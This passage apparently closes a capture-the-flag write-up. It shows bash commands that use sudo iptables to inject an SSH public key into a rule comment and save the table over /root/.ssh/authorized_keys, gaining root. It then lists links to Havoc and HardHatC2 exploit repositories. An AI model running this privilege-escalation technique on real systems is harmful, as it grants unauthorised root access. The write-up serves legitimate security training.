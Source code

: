 ```bash
# Craft a small SSH key
$ ssh-keygen -t ed25519

# Inject it in iptables comment
$ sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA6K1LRhUnGJr8fyqnRZiB6WDY6pDcOhLJYsAPWaTXlV\n'

# Save the table to authorized keys
$ sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```

We can now log in using SSH and the `root` user and get the root flag.

## Resources:

| Hyperlink                                                                                         | Info                                                       |
| ------------------------------------------------------------------------------------------------- | ---------------------------------------------------------- |
| https://github.com/thisisveryfunny/CVE-2024-41570-Havoc-C2-RCE                                    | Havoc-C2-RCE (CVE-2024-41570)                              |
| https://github.com/HavocFramework/Havoc                                                           | Havoc                                                      |
| https://github.com/DragoQCC/CrucibleC2                                                            | HardHat C2                                                 |
| https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7                                | HardHatC2 0-Days (RCE & AuthN Bypass)                      |
| https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/ | A Journey From sudo iptables To Local Privilege Escalation |
